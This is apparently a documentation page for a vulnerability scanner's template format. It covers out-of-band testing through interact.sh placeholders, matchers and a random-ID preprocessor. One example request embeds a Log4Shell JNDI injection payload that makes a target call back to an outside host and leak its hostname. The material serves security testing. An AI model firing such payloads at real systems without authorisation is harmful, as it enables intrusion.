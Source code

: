 **OOB Testing**

---

Racoon supports using the interact.sh API to achieve OOB based vulnerability scanning.

**Interactsh Placeholder**

---

**{{interactsh-url}}** placeholder is used in both http and https in network requests.

Each request is provided each unique interact.sh URLs.

```
- request:
      - |
        GET /?x=${jndi:ldap://${hostName}.uri.{{interactsh-url}}/a} HTTP/1.1
        Host: {{Hostname}}
```

**Interactsh Matchers**

---

Interactsh interactions can be used with word, regex or dsl matcher/extractor

> interactsh_protocol: dns, http, smtp. 
```
matchers:
  - type: word
    part: interactsh_protocol
    words:
      - "dns"
```

>interactsh_request: the request that the interact.sh server received
```
exposer:
  - type: regex
    part: interactsh_request
    group: 1
    regex:
      - 'GET \/([a-z-]+) HTTP'
```
>interactsh_response: the response that the interact.sh server sent to the client


**Preprocessors**

---

Pre-processors can be specified globally in the template to generate a **random ids** for each template run.

> **randstr**: random ID. This will always contain the same value can be used anywhere in the template. 

randstr can be used within matchers to match the inputs from user.
